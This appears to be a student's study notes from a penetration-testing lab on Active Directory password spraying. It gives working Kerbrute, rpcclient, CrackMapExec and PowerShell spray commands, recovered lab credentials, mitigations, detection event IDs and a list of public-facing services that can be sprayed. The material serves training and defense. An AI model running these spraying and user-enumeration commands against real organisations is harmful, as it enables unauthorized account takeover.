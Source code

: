 
1. We first need a valid list of users
	1. How?
	  - Leverage an SMB Null session
	  - Utilize LDAP anonymous bind
	  - User [[Kerbrute]] with a userlist

#### Use Kerbrute to get a list of valid users:
`sudo kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_users.txt
`

==You must keep a log of what you are doing==
Why? -> What if a malicious actor is in the network when you are as well? How would your client know?

## Internal Password Spraying with Linux:
1. Now that we have a valid list of usernames, we can attempt to spray passwords.

```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

##### Kerbrute:
```
# Spray the password: Welcome1 to all the users in 'valid_users.txt'

kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
==Creds:== sgage:Welcome1[^1]
avazquez:Password123

> [!NOTE] Internal Spray with CrackMapExec
> ```shell-session
> # Use grep to show only successful sprays
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep + 


^ ^ Validate credentials with CME:
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123


### Test for password reuse!
1. If you gather admin credentials, try them in as many other places as possible in the domain
2. If a user has a standard account and an admin account, try the creds on the admin account as well.


## Internal Password spraying - From Windows:
==Connect==: `xfreerdp3 /v:<MS01 target IP> /u:htb-student /p:Academy_student_AD!`

COMMANDS:
```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

![[Pasted image 20250601151800.png]]

dbranch:Winter2022
### Mitigation of password spraying:
1. **MFA**: But the credentials can perhaps be used somewhere where MFA is not required
2. **Restricting Access**: Users should only have access to applications that they need to access.
3. **Reduce impact of successful exploitation**: Network segmentation, privileged users having separate accounts, Application specific permission levels
4. **Password Hygiene**: Educate users! Adopt a password phrase paradigm, have a dictionary that blocks the use of weak phrases (like "welcome!")

### Detection of password spraying:
1. Many account lockouts in a short period of time
2. Lots of event IDs of 4625 (An account failed to log on) ==for smb password spraying==
3. Lots of event IDs of 4771 (Kerberos pre-authentication failed) ==for LDAP password spraying
4. Enable logging

### External password spraying:
-> This can also be done with public facing applications including:

1. Microsoft 0365
2. Outlook Web Exchange
3. Exchange Web Access
4. Skype for Business
5. Lync Server
6. Microsoft Remote Desktop Services (RDS) Portals
7. Citrix portals using AD authentication
8. VDI implementations using AD authentication such as VMware Horizon
9. VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
10.  Custom web applications that use AD authentication